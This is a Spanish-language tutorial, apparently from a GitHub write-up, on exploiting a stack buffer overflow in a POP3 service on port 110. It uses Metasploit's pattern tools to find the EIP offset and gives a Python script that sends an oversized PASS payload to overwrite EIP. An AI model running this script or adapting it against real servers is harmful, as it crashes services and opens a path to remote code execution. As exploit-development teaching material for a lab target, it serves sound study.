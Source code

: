 ```python
```

Una vez encontrado un número el cual ocasione un fallo, en este caso 5000, sabemos que al ingresar esta cantidad el programa corrompe debido a que el bufer asignado para la password es de un tamaño de caracteres menor a estos 5000, por lo que ahora hay que encontrar el **offset**.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000 
# pattern_create.rb es un scrip en rubi el cual recibe una logitud de caracteres creando así un payload para envíar. 
```

Una vez generada la cadena de bytes a enviar, simplemente tendríamos que mandarlo y ver el valor por el cual se sobrescribe el registro EIP, para luego hacer uso de otra herramienta para obtener la cantidad de caracteres previos antes de que el registro EIP se sobrescriba.

```bash
# Si el registro EIP marca "7A46317A" debemos ingresarlo junto a un 0x al principio 
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x7A46317A
```

Esta herramienta nos devuelve un número el cual nos indica la cantidad de caracteres previos a que se sobrescriba el valor del registro EIP. Pudiendo así saber exactamente cuando y como hacer para manipular este mismo a gusto. 

Una vez conseguido el offset, podríamos actualizar el script: 

```python
#!/usr/bin/python3 

import socket
import sys 

ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"BBBB"
after_eip = b"C"*200

payload = b'PASS ' + before_eip + eip + after_eip

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #\r\n manera de simular ENTER
        response = s.recv(1024)
        print(response)
        s.send(payload + b'\r\n')
        s.close()


if __name__ == "__main__":
    bof()

```
